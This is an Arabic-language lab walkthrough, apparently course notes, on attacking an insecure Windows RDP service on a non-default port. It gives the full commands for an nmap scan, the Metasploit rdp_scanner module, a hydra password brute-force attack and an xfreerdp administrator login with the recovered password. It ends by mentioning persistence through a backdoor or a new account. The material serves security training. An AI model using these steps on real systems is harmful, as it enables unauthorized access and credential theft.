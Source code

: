 
طبعا رابع لاب معنا فيه هذا الجزء هو اللاب

Windows: Insecure RDP Service
------------------------------|

طبعا فكرة بروتوكول RDP
هو نفس الـ SSH on Linux
ولكن الفرق انه يعطيك واجهة رسومية GUI

طبعا الديفولت بورت 3389

الان راح نشوف كيف نستغل هذي الخدمة

اول شي اللاب معطينا الايبي وكلعاده نسوي له فحص سريع بالـ nmap
[nmap -sV 10.0.0.31]
نشوف ان بورت 3333 شغال ولكن مانعرف وش الخدمة الي شغاله ف بنستخدم موديول عشان نتاكد هل هذا البورت شغال عليه هذي الخدمة او لا
وهذا يعني انه البورت مو شرط يكون الديفولت عادي تكون الخدمة على بورت اخر غير الديفولت بورت

الان بنستغله عن طريق الـ MSFconsole
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/rdp/rdp_scanner] وظيفته يتاكد لك هل فعلا شغال الـ RDP على الـ RPORT الي حددته ولا لا
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب RHOST , RPORT
نعطيه قيم هذي المتغيرات
[set RHOSTS 10.0.0.31]
[set RPORT 3333]
[exploit] or [run]
والان نشوف انه حصلنا انه فعلا شغاله الخدمة على هذا البورت

فالان دام الـ RDP نفس فكرة الـ SSH اكيد بنحتاج طريقة تحقق يعني يوزر وباسورد او طريقة اخرى غير اليوز والباسورد

ف حنا بنستخدم hydra عشان نحصل اليوزر والباسورد
[hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333]

-s = نحدد البورت لو كان غير الديفولت
rdp:// = لابد نحدد الخدمة هنا بهذا الطريقة عشان نقوله ان هذي الخدمة تشتغل على البورت المحدد
والان نشوف انه حصلنا 4 يوزرات طبعا زي ماقلنا دائما نروح مع اليوزر الاكثر صلاحية والي هو administrator

فعندنا اداة تخدمنا عشان نتصل بالـ RDP ويعطينا الواجهة الرسوميه والي هي xfreerdp
[xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333] 
[y] لابد توافق عشان يفتح لك الواجهة الرسوميه

والان عندنا الاكسس و نبحث عن الفلاق
طبعا حصلناه في مسار c
واسم الملف هو flag


طبعا الان وصلنا التارقت لكن لابد نضمن انه متى ماحبينا ندخل بنقدر ندخل سواء نثبت باك دور او نسوي يوزر جديد

---